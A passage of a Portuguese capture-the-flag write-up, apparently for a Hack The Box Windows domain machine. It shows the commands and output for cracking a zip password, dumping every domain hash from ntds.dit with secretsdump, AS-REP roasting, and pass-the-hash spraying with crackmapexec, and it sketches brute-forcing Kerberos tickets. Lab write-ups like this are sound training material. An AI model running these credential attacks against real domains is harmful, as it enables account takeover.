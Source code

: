 O ficheiro está protegido por palavra passe... Podemos tentar romper a palavra passe por força bruta com o dicionário **_rockyou.txt_** da seguinte forma:

```bash
zip2johh backup.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john hash --show

#>  backup.zip:iloveyousomuch::backup.zip:Active Directory/ntds.jfm, registry/SECURITY, Active Directory/ntds.dit:backup.zip

unzip backup.zip  # iloveyousomuch
```

O conteúdo do ficheiro zip é espetacular! Tem um ficheiro SYSTEM e um ficheiro ntds.nit. Com esses dois ficheiros é possível extrair todos os hashes de um Domain Controller.

```bash
secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > contents/secretsdump.out
```

O output é enorme. Deve ser a simulação da GOOGLECORP ou coisa parecida LOOOL... 8005 linhas!!

```bash
cat secretsdump.out | grep aad | awk -F ':' '{print$1}' > users
cat secretsdump.out | grep aad | awk -F ':' '{print$4}' > hashes
```

Temos agora dois ficheiros, um de users, e um de hashes. Vamos primeiro enumerar os users... Para isso, nada melhor que o kerberos para enumerar os users existentes. Vamos tentar efetuar um AS-REP Roasting Attack. Se o user existe, a resposta vai ser que o usuário não tem pre autenticação ativada, e se tivermos um hash kerberos, bem podemos tentar crackeá-lo...

```bash
GetNPUsers.py htb.local/ -no-pass -usersfile users | grep -v "not found"
#>  [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User APT$ doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User henry.vinson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Temos 3 usuários válidos. Mas não conseguimos obter nenhum TGT. A lista de Hashes que temos poderá ter (e confirmo já que tem lol) um hash válido para 1 dos usuários. Pode estar a simular um usuário que mudou de nome mas não mudou de password. Isto pode ter facilmente verificado através de crackmapexec

```bash
crackmapexec smb apt -u valide_users -H hashes
```

O problema é que a máquina alvo possui algo que impede ataques por força bruta ao serviço Samba! Depois de umas 50 tentativas, a máquina bloqueia o nosso IP e é preciso reiniciar a máquina...

Posto isso, podemos tentar receber um TGT com username e um HASH (ou uma password).

## 2.5. getTGT.py

Existe uma outra utilidade do Impacket que se chama **getTGT.py** e que faz este serviço. O problema é que faz apenas e só uma petição. Não dá para fazer por força bruta com recurso a dicionário. Bem, isto resolve-se com bash, um **for loop** e paralelizar as petições. Depois ainda há outro problema. No output, não temos informações do nome ou do hash que está a ser usado. Para contornar isso, decidi enviar cada output em separado, e cujo o nome do ficheiro é simplesmente o hash... O output correcto informa que foi criado um ficheiro qualquer com o formato "username.ccache". Depois com um find e um grep, é fácil recuperar o hash e o seu username...
